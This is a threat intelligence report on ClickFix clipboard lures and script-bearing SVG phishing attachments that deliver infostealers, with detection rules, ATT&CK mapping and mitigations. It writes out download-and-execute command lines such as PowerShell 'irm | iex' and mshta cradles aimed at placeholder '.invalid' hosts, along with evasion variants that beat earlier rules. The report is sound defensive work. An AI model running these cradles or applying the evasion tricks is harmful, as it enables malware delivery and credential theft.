

# Threat Intelligence Cable: CABLE-2026-001

**TLP:** CLEAR | **Date:** 2026-09-03 | **Author:** Kyle Reid  
**Subject:** Adversary Initial Access Analysis: Multi-Stage ClickFix Social Engineering and Active-Content SVG Lures Delivering InfoStealer Malware  
**Target Audience:** Threat Intelligence Analysts, Detection Engineers, SOC Triage Teams  
**Source Provenance:** Public telemetry, public incident disclosures (Sekoia, Unit 42, Hoxhunt, BleepingComputer), and synthetic laboratory replication.

---

## 1. Executive Summary & Estimative Confidence

Over Q1–Q3 2026, threat actors have accelerated the adoption of **user-assisted execution lures**—broadly clustered as **ClickFix** and **ClearFake**—to bypass automated email and secure web gateways (SEGs/SWGs). Rather than attempting to deliver traditional weaponized office documents or binary attachments directly to the inbox, adversaries deliver visually benign attachments (such as **SVG vector graphics**) or compromised web landing pages that trick the victim into executing arbitrary commands via the native Windows shell (`explorer.exe` / Run dialog `Win + R`).

* **Analytic Judgment:** It is **highly likely (80–90% probability)** that initial-access brokers (IABs) and info-stealer operators will continue to favor user-assisted clipboard lures over direct macro or binary attachments due to high enterprise endpoint bypass rates and near-zero reliance on software vulnerabilities.
* **Analytic Judgment:** It is **almost certain (95–99% probability)** that adversaries will continue diversifying away from standard `powershell.exe -w hidden` strings into switch aliases (`-w 1`), cmdlet invocation splitting, and secondary LOLBins (`rundll32.exe`, `wscript.exe`, `curl.exe`) to degrade brittle endpoint string detections.
* **Analytic Confidence Level:** **HIGH**. Grounded in multi-vendor public telemetry corroboration, empirical adversarial stress-testing in the laboratory, and frontline threat hunting observation.

---

## 2. Threat Actor & Campaign Clustering

| Attribute | Assessment |
|---|---|
| **Primary Campaign Clusters** | ClearFake, ClickFix, Marko, Water Hydra (TA577 adjacent) |
| **Associated Payloads** | Lumma Stealer, DarkGate, Vidar, NetSupport RAT, AsyncRAT, RedLine |
| **Target Sectors** | Financial Services, Healthcare, Technology, Professional Services, Public Sector |
| **Geographic Focus** | North America, Western Europe, APAC enterprise environments |
| **Primary Motivation** | Information theft (browser session tokens, credentials, crypto wallets) leading to secondary corporate extortion and ransomware affiliate sales |

---

## 3. Diamond Model Analysis



---

## 4. Epistemological Framework: Facts vs. Judgments vs. Unknowns

Adhering to the Sherman Kent / ICD 203 analytic doctrine, this assessment separates verified physical telemetry from analytical inferences:

| Category | Analytic Item | Description |
|---|---|---|
| **Observed Facts** | Multi-vector delivery | Attackers distribute SVG email attachments containing embedded JavaScript and external redirect logic. |
| **Observed Facts** | Shell origin | The process tree on the endpoint originates from `explorer.exe` rather than a browser sandbox, confirming manual Run dialog paste. |
| **Observed Facts** | Memory download | Payload acquisition relies on native LOLBins (`powershell.exe`, `curl.exe`, `mshta.exe`) executing in-memory cradles (`irm | iex`). |
| **Analytical Judgment** | Evasion intent | The transition to SVG attachments is driven by email gateway rasterization filters treating SVGs as static images. |
| **Analytical Judgment** | Durability | ClickFix commands are engineered to survive basic LOLBin restrictions by chaining `cmd.exe /c start /b` and obfuscated switches. |
| **Hypothesis** | Centralized broker service | Shared overlay UI templates across Lumma and DarkGate suggest a single Turnkey-as-a-Service (TaaS) initial access provider. |
| **Unknowns** | Automation rate | The exact ratio of automated web lures vs. manual spearphishing deployments across regional campaigns remains unquantified. |

---

## 5. Technical Analysis: Vector 1 — Inbound SVG Phishing Lures

Adversaries exploit the structural duality of the Scalable Vector Graphics (SVG) format: it renders as a visual graphic in email clients and preview panes, but constitutes an executable XML/DOM document within standard browser rendering engines.

```
[Inbound Email]
       │
       ▼
[Attachment: document.svg] ──> SEG static scan (treats as image, benign)
       │
       ▼ (User opens attachment)
[Browser Window] ──> Executes embedded JavaScript / location.replace()
       │
       ▼
[Credential / ClickFix Lure Landing Page]
```

### Detection Coverage
This layer is countered by the repository's YARA rule:
* **Rule**: [`Suspicious_Active_Content_SVG_Attachment`](../../rules/yara/suspicious_active_content_svg.yar)
* **Mechanic**: Requires conjunction of `<svg` root within 4,096 bytes, active content (`<script>`, `onload`/`onerror`, `javascript:`), external navigation (`location`, `window.open`, `assign`/`replace`), and an external `http(s)://` target.
* **Efficacy**: 0 false positives across 2,079 benign Bootstrap icons; 100% resilience against Swarm mutations including CDATA encapsulation and namespace aliasing.

---

## 6. Technical Analysis: Vector 2 — Host Execution via Explorer (ClickFix)

Upon landing on the malicious site, the victim is presented with a deceptive modal overlay ("Verify Human / Cloudflare Turnstile Verification" or "Update Chrome Browser to View Document"):

1. The page prompts the victim: *"Click Copy Code, then press Win + R, press Ctrl + V, and hit Enter."*
2. Clicking the page copies a weaponized command string to the system clipboard via `navigator.clipboard.writeText()`.
3. The victim opens the Run dialog and pastes the command.
4. **Execution Telemetry**: `explorer.exe` directly spawns the command without an intermediate browser parent process.

```
explorer.exe (PID: 3420)
   │
   └── powershell.exe -w hidden -c "irm https://payload-delivery.invalid/cdn/patch.ps1 | iex"
          │
          └── LummaStealer.exe (Memory-injected payload)
```

### Detection Coverage
This layer is countered by the repository's Sigma rule:
* **Rule**: [`proc_creation_win_explorer_clickfix_execution.yml`](../../rules/sigma/proc_creation_win_explorer_clickfix_execution.yml)
* **Mechanic**: Inspects `ParentImage: *\explorer.exe` spawning shells or LOLBins (`powershell.exe`, `pwsh.exe`, `cmd.exe`, `mshta.exe`, `curl.exe`, `rundll32.exe`, `wscript.exe`) with download cradles, hidden window flags, encoded strings, or remote network destinations.
* **Efficacy**: Validated across Splunk SPL, Elasticsearch Lucene, and CrowdStrike LogScale with 100% Swarm resilience.

---

## 7. Adversarial Swarm Stress-Testing: Discovered Boundaries & Patches

The laboratory's Adversarial Swarm Intelligence Engine (`tools/swarm/`) was deployed against both rules across 3 closed-loop adaptation cycles:

```
Cycle 1: Baseline Generation ──> 100% Detection
Cycle 2: Boundary Mutation   ──> 3 Evasion Gaps Identified (66.7% / 72.7% Resilience)
Cycle 3: Rule Logic Patch    ──> 100% Resilience Confirmed (0 Benign False Positives)
```

| Rule | Evasion Mutation Probed | Swarm Boundary Diagnosis | Engineering Remediation |
|---|---|---|---|
| **YARA** | `svg_comment_padding_exceeding_1kb` | Prepended XML comments pushed root past 1,024 bytes. | Expanded root search window to 4,096 bytes (`REC-YARA-001`). |
| **YARA** | `svg_string_concatenation_location` | `window['loc'+'ation']` evaded literal string match. | Added bracket property regex `$navigation_bracket` (`REC-YARA-002`). |
| **YARA** | `svg_namespace_prefix_aliasing` | `<svg:svg>` evaded literal `<svg` scan. | Added optional XML namespace prefix regex (`REC-YARA-003`). |
| **Sigma** | `proc_powershell_windowstyle_numeric` | `-w 1` and `-w h` evaded literal `*-w hidden*`. | Added numeric and abbreviated switch aliases (`REC-SIGMA-001`). |
| **Sigma** | `proc_rundll32_url_protocol_handler` | `rundll32.exe url.dll,FileProtocolHandler` evaded shell filter. | Added `rundll32.exe` with URL handlers to monitored LOLBins (`REC-SIGMA-004`). |
| **Sigma** | `proc_wscript_remote_script_fetch` | `wscript.exe //e:vbscript http://...` evaded shell filter. | Added WSH engines with network URIs to monitored images (`REC-SIGMA-005`). |

---

## 8. MITRE ATT&CK Mapping

| Tactic | Technique ID | Technique Name | Detection Layer |
|---|---|---|---|
| **Initial Access** | [T1566.001](https://attack.mitre.org/techniques/T1566/001/) | Phishing: Spearphishing Attachment | YARA (`Suspicious_Active_Content_SVG`) |
| **Initial Access** | [T1566.002](https://attack.mitre.org/techniques/T1566/002/) | Phishing: Spearphishing Link | Network / Web Gateway |
| **Execution** | [T1204.002](https://attack.mitre.org/techniques/T1204/002/) | User Execution: Malicious File / Command | Sigma (`explorer_clickfix_execution`) |
| **Execution** | [T1059.001](https://attack.mitre.org/techniques/T1059/001/) | Command and Scripting Interpreter: PowerShell | Sigma (`explorer_clickfix_execution`) |
| **Execution** | [T1059.003](https://attack.mitre.org/techniques/T1059/003/) | Command and Scripting Interpreter: Windows Command Shell | Sigma (`explorer_clickfix_execution`) |
| **Execution** | [T1059.005](https://attack.mitre.org/techniques/T1059/005/) | Command and Scripting Interpreter: Visual Basic / WSH | Sigma (`explorer_clickfix_execution`) |
| **Defense Evasion** | [T1218.005](https://attack.mitre.org/techniques/T1218/005/) | System Binary Proxy Execution: Mshta | Sigma (`explorer_clickfix_execution`) |
| **Defense Evasion** | [T1218.011](https://attack.mitre.org/techniques/T1218/011/) | System Binary Proxy Execution: Rundll32 | Sigma (`explorer_clickfix_execution`) |
| **Defense Evasion** | [T1027](https://attack.mitre.org/techniques/T1027/) | Obfuscated/Encoded Files or Information | YARA & Sigma |
| **Command & Control** | [T1105](https://attack.mitre.org/techniques/T1105/) | Ingress Tool Transfer | Sigma (`explorer_clickfix_execution`) |

---

## 9. Indicator of Compromise (IOC) Matrix

All external indicator examples adhere to RFC 2606 reserved namespaces (`.invalid`) for public distribution safety while preserving exact behavioral syntax:

| Indicator Type | Value / Pattern | Context / Role | Confidence | Expiration Guidance |
|---|---|---|---|---|
| **Command Line** | `powershell.exe -w hidden -c "irm https://*.invalid/* \| iex"` | ClickFix Stage-1 execution | **HIGH** | Permanent behavioral signature |
| **Command Line** | `powershell.exe -w 1 -c "(New-Object Net.WebClient).DownloadString('*')"` | ClickFix Stage-1 numeric alias | **HIGH** | Permanent behavioral signature |
| **Command Line** | `rundll32.exe url.dll,FileProtocolHandler http*://*` | ClickFix secondary LOLBin launch | **HIGH** | Permanent behavioral signature |
| **Command Line** | `mshta.exe http*://*.invalid/*.hta` | MSHTA remote execution cradle | **HIGH** | Permanent behavioral signature |
| **YARA Signature** | `Suspicious_Active_Content_SVG_Attachment` | Attachment static inspection | **HIGH** | Review quarterly for new DOM APIs |
| **Registry Artifact** | `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` | Artifact of manual Run prompt paste | **HIGH** | 30-day forensic window |

---

## 10. Strategic Recommendations & Mitigations

### Priority 1: Immediate Containment (Within 24 Hours)
1. **Deploy Process Creation Rule**: Implement the Sigma detection [`proc_creation_win_explorer_clickfix_execution.yml`](../../rules/sigma/proc_creation_win_explorer_clickfix_execution.yml) in your EDR/SIEM (Splunk, Elastic, or CrowdStrike Falcon LogScale). Set alerts to Sev-2 / High.
2. **Quarantine Active SVGs**: Configure email gateway rules to quarantine inbound SVG attachments that contain `<script` or `javascript:` tokens prior to user delivery.

### Priority 2: Endpoint Hardening & Surface Reduction (Within 14 Days)
1. **Attack Surface Reduction (ASR)**:
   - Enable `Block executable content from email client and webmail`.
   - Enable `Block process creations originating from PSExec and WMI commands`.
   - Enable `Block obfuscated scripts`.
2. **PowerShell Script Block Logging**: Enable Windows Event ID 4104 (Script Block Logging) and 4103 (Module Logging) via Group Policy / Intune to ensure deobfuscated payload commands are captured even if command line strings are obfuscated.

### Priority 3: User Education & Workflow Hardening
1. **Educate on Clipboard Pasting**: Train staff that legitimate administrative error dialogs, CAPTCHAs, and web services **never** require opening the Windows Run prompt (`Win + R`) and pasting clipboard text.
2. **Restrict Run Prompt Access**: In highly locked-down enterprise tiers (e.g. call centers, point-of-sale, kiosk devices), disable the Windows Run dialog entirely via Group Policy (`DisableRun` key).
